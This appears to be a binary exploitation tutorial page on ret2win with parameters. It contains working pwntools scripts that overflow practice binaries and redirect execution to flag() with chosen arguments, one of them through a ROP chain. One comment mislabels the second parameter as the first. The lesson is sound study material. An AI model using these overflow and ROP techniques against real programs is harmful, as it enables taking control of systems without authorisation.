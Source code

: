 ```yaml
---
description: Utilising Calling Conventions
---
```


# Exploiting Calling Conventions

{% file src="../.gitbook/assets/exploiting\_with\_params.zip" caption="ret2win with Parameters" %}

### 32-bit

The program expects the stack to be laid out like this before executing the function:

```text
return pointer    param1    param2    param3
```

So why don't we provide it like that? As well as the function, we also pass the return address and the parameters.

```text
<flag address>    <ret. pointer>    <param1>    <param2>
```

Everything after the address of `flag()` will be part of the stack frame for the next function as it is **expected** to be there - just instead of using `push` instructions we just overwrote them manually.

```python
from pwn import *

p = process('./vuln-32')

payload = b'A' * 52            # Padding up to EIP
payload += p32(0x080491c7)     # Address of flag()
payload += p32(0x0)            # Return address - don't care if crashes when done
payload += p32(0xdeadc0de)     # First parameter
payload += p32(0xc0ded00d)     # Second parameter

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

### 64-bit

Same logic, except we have to utilise the gadgets we talked about previously to fill the required registers \(in this case `rdi` and `rsi` as we have two parameters\).

We have to fill the registers _before_ the function is called

```python
from pwn import *

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9


payload = b'A' * 56            # Padding
payload += p64(POP_RDI)        # pop rdi; ret
payload += p64(0xdeadc0de)     # value into rdi -> first param
payload += p64(POP_RSI_R15)    # pop rsi; pop r15; ret
payload += p64(0xc0ded00d)     # value into rsi -> first param
payload += p64(0x0)            # value into r15 -> not important
payload += p64(0x40116f)       # Address of flag()

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

